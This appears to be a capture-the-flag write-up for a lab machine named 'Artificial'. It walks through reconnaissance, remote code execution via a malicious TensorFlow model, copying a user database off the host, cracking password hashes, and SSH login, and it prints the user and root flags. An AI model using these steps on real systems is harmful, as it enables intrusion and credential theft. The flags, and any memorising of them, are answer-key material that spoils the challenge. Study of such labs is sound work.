






### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sCV --min-rate=10000 $target
```



As we can see, there is port `22` for ssh and port `80` for the webserver, which is based on *ngnix*.

```bash
PORT      STATE    SERVICE        VERSION
22/tcp   open   ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp   open   http           nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)4181/tcp  filtered macbak
```

Let's add `artificial.htb` to our `/etc/hosts`, this line:
```
10.10.11.74     artificial.htb
``` 

### Get shell

As we can see, we can upload models and then execute them on our dashboard.
I googled for this, and found this https://github.com/Splinter0/tensorflow-rce, we can achieve `RCE` using creation of malicious `.h5` model files.

So, first let's download `DockerFile` and `requirements.txt` from the webserver.

We build the Docker Image, `-t` is to supply the image name, and the `.` is where the `DockerFile` is located:
```bash
docker build -t artificial-docker .
```

And then spawn a shell inside container, `--rm` is to remove all the staff after the container dies, `--it` to spawn shell, `-v` is to specify mount, our `$PWD` to `/app`, `-w` is to specify working directory on the shell:
```bash
docker run --rm -it -v "$PWD":/app -w /app artificial-docker
```

Next, we want to install packages:
```bash
pip install -r requirements.txt
```

And now we can `curl` the `exploit.py`, and make our model after changing it to point to our listen port, and ip.
```bash
curl https://raw.githubusercontent.com/Splinter0/tensorflow-rce/refs/heads/main/exploit.py -o exploit.py
```



and execute:
```bash
python3 exploit.py
```



Now, we just need to upload `exploit.h5` and click the *View Predictions*.



Of course we paste the regular commands:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

### Move vertically 

We can see there is another user which is called `gael`, however we don't have permission to read its files.

inside the folder `/app/instance`, we can see there is `users.db` file, let's try to analyze this file in our local machine.
So, in the remote we'll execute:
```bash
python3 -m http.server 8081
```
and in the local:
```bash
curl http://$target:8081/users.db -o users.db
```

Using the `file` command we can see we have sqlite3 filetype.



next, we'll execute `sqlite3 users.db`, and then inside the db:
```sql
sqlite> .tables
model  user 
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|fakename|fake@email.com|aea97f1a1bb96221efec9e71d76766ab
7|fakenmae|r32r@email.com|bfde39ad9014a45608030ff7081f94cb
8|admin|admin@test.htb|cc03e747a6afbbcbf8be7668acfebee5
9|dsg|dsg@local.net|2c103f2c4ed1e59c0b4e2e01821770fa
10|test|test@test.com|5a105e8b9d40e1329780d62ea2265d8a
11|dev|dev@gmail.com|227edf7c86c02a44d17eec9aa5b30cd1
12|tets|test@gmail.com|81dc9bdb52d04dc20036dbd8313ed055
13|' UNION SELECT username FROM users--|hola@gmail.com|2347b7a569cdefeab6d4cade96cbf38e
14|1|1@1|c4ca4238a0b923820dcc509a6f75849b
15|user|user@gmail.com|ee11cbb19052e40b07aac0ca060c23ee
```

Using `pragma table_info("table_name")` we can get the column names:
```sql
sqlite> pragma table_info("user");
0|id|INTEGER|1||1
1|username|VARCHAR(100)|1||0
2|email|VARCHAR(120)|1||0
3|password|VARCHAR(200)|1||0
``` 

We want to output all into `users.txt`, so we'll execute:
```sql
sqlite> .output users.txt
sqlite> select * from user;
sqlite> .output stdout
```

We can check if it really worked, using this:
```sql
sqlite> .shell cat users.txt
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|fakename|fake@email.com|aea97f1a1bb96221efec9e71d76766ab
7|fakenmae|r32r@email.com|bfde39ad9014a45608030ff7081f94cb
8|admin|admin@test.htb|cc03e747a6afbbcbf8be7668acfebee5
9|dsg|dsg@local.net|2c103f2c4ed1e59c0b4e2e01821770fa
10|test|test@test.com|5a105e8b9d40e1329780d62ea2265d8a
11|dev|dev@gmail.com|227edf7c86c02a44d17eec9aa5b30cd1
12|tets|test@gmail.com|81dc9bdb52d04dc20036dbd8313ed055
13|' UNION SELECT username FROM users--|hola@gmail.com|2347b7a569cdefeab6d4cade96cbf38e
14|1|1@1|c4ca4238a0b923820dcc509a6f75849b
15|user|user@gmail.com|ee11cbb19052e40b07aac0ca060c23ee
```

To quit we just type `.quit`.

Now, we use `cut` to get only hashes:
```bash
cut -d '|' -f4 users.txt > hashes.txt
```
Let's crack the passwords using https://crackstation.net/



We got the password of `gael`, which is `mattp005numbertwo`.

Let's connect using `ssh gael@$target` and get the user flag:
```bash
gael@artificial:~$ cat user.txt 
5c77a6560779530ac10be603b87fa276
```

### Privilege Escalation


**User Flag:*****`5c77a6560779530ac10be603b87fa276`***

**Root Flag:*****`b40abdfe23665f766f9c61ecba8a4c19`***
